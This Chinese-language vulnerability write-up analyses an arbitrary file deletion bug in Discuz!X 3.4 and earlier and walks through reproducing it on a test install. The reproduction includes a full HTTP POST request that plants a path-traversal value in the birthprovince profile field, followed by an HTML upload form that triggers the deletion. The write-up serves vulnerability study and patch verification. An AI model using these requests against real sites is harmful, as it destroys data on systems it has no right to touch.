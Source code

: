 # Discuz!X 3.4 任意文件删除漏洞

> 原文：[http://book.iwonder.run/0day/Discuz/3.html](http://book.iwonder.run/0day/Discuz/3.html)

## 一、漏洞简介

## 二、漏洞影响

影响版本：Discuz!X ≤3.4

## 三、复现过程

### 漏洞分析

Discuz!X 的码云已经更新修复了该漏洞

[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574)

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![image](img/b4f2c43c38664637f207adb32c3b1bba.png)

跟入代码 70 行

```
if(submitcheck('profilesubmit')) { 
```

当提交 profilesubmit 时进入判断，跟入 177 行

![image](img/3d92bb0e74ec718b06bb11f03bd951e8.png)

我们发现如果满足配置文件中某个 formtype 的类型为 file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![image](img/fb1c7eecc5a6b4d7dc17b5b2598ba9cd.png)

我们发现 formtype 字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现 228 行再次引入语句 unlink

```
@unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]); 
```

回溯进入条件

![image](img/874313fcadca52a2b44984001502c52c.png)

当上传文件并上传成功，即可进入 unlink 语句

![image](img/eaf59ad075a8fbc3665e4f5f3a280145.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了 birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![image](img/365321c6c8636d1eabf3bcea908feca0.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见 robots.txt 是存在的：

![image](img/f0a0c68414fc3018268f54807a57faae.png)

注册用户后，在个人设置页面找到自己的 formhash：

![image](img/2b3093d044a9954bb71dc4e032a42dc2.png)

带上自己的 Cookie、formhash 发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s-- 
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image](img/fe1def73715429f92a309f0c54755896.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成 discuz 的域名，`[form-hash]`改成你的 formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body> 
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![image](img/1ed58e385568dd452cc276e4075444c3.png)

